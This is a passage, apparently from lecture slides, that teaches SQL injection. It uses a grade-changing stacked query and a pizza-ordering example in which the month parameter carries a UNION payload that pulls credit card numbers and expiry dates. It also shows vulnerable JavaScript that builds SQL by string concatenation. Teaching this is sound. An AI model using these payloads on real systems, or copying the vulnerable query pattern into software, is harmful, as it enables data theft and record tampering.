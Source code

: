 ```sql
UPDATE grades
SET g.grade = 4.0
FROM grades g, students s
WHERE g.student_id = s.id
AND s.name = 'Smith'
```

- The following query will be generated:

```sql
SELECT students.* FROM students, advisors
    WHERE student.advisor_id = advisor.id
    AND advisor.name = 'Jones'; UPDATE grades
    SET g.grade = 4.0
    FROM grades g, students s
    WHERE g.student_id = s.id
    AND s.name = 'Smith'
```

## SQL Injection

Injection can also be used to extract sensitive information

- Modify existing query to retrieve different information

- Stolen information appears in "normal" Web output

## Consider a simple pizza company view order history

### Order history query to SQL database

- Order history request processing:

```js
 var month = routeParam.month;
 var orders = Orders.find_by_sql(
      "SELECT pizza, toppings, quantity, date " +
      "FROM orders " +
      "WHERE user_id=" + user_id +
      "AND order_month= '" + month + "'");
```

- Month parameter set to:

```sql
October' AND 1=0
UNION SELECT name as pizza, card_num as toppings,
    exp_mon as quantity, exp_year as date
FROM credit_cards WHERE name != '
```

### **SQL Injection - Dump the database

```sql
SELECT pizza, toppings, quantity, date
   FROM orders
   WHERE user_id=94412
   AND order_month='October' AND 1=0
UNION SELECT name as pizza, card_num as toppings,
   exp_mon as quantity, exp_year as date
   FROM credit_cards WHERE name != ''**
```
